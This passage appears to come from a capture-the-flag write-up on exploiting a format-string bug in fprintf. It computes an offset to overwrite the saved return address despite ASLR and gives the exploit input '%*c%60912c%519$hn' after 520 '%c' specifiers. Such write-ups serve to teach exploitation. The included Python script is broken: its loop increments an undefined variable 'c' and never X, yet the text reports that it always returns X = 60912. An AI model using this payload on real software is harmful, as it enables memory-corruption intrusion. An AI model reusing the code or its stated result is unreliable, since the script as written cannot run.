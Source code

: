 Lets write a small python script that calculates (or better, bruteforces) the value `X` that we have to add so that 
`(reg2_val + 520 + X ) & 0xffff == addr_saved_rip & 0xffff`. For testing we can generate a random stack address and subtract 4104 to generate the corresponding target stack address. Notice that the 4 byte signed int representation of the `reg2_val` *has to be positive*, otherwise `%*c` will read
the wrong value.

```python
from os import urandom
import struct

def gen_pair():
    while True:
        addr = urandom(8)
        int_rep_8 = struct.unpack('>q',addr)[0]
        int_rep_4 = struct.unpack('>i',addr[-4:])[0]
        
        if int_rep_4 >= 0: #!
            target = struct.pack('>q',int_rep_8 - 4104)
            target = int_rep_8 - 4104

            return int_rep_8,target

reg2_val,addr_saved_rip = gen_pair()

print(f'{reg2_val = },{addr_saved_rip = }')

X = 0
while True:

    if (reg2_val + 520 + X) & 0xffff == addr_saved_rip & 0xffff:
        print(f'{X = }')
        break
    c+=1
```

Running this multiple times we always get `X = 60912`. So when we now

1. write 520 chars to reach `reg2`
2. read the value of `reg2` via dynamic width
3. write 60912 chars

the char counter in fprintf should equal the lower 4 bytes of the value of the saved return address!
Lets try it out. We run the binary in a randomized gdb session, make sure that the value of reg2 is positive. We can then enter 
520 `%c`'s followed by `%*c%60912c%519$hn`. Upon examining the stack before the return of fprintf when running with the now quite long input we see the following:

![](img/stackptr_ch_aslr.png)
